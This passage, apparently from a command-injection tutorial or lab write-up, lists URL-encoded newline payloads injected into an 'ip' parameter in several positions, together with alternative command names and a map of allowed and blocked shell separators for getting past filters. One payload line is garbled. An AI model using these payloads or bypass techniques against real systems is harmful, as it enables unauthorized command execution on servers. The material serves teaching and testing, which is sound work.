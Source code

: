 **After identifying allowed separators, test commands:**

**Basic Commands:**
```http
# Using newline separator
ip=127.0.0.1%0awhoami
ip=127.0.0.1%0aid  
ip=127.0.0.1%0alstp=127.0.0.1%0acat
```

**Alternative Commands:**
```bash
# If basic commands are blocked, try alternatives
whoami   → w       → /usr/bin/whoami
id       → /usr/bin/id
ls       → dir (Windows) → /bin/ls
cat      → type (Windows) → more → less
```

### Payload Structure Analysis

**Test different payload positions:**

**Prefix Injection:**
```http
ip=whoami%0a127.0.0.1
```

**Suffix Injection:**
```http
ip=127.0.0.1%0awhoami
```

**Middle Injection:**
```http
ip=127%0awhoami%0a.0.0.1
```

**Multiple Commands:**
```http
ip=127.0.0.1%0awhoami%0aid%0als
```

---

## Filter Bypass Strategy Development

### Systematic Approach

**Phase 1: Character Mapping**
```bash
# Create character allowlist/blocklist
✅ Allowed: \n (\r ?) \t (?) ( ) space numbers letters . 
✗ Blocked: ; & | ` $ && || 
? Unknown: \r \t \v \f unicode_alternatives
```
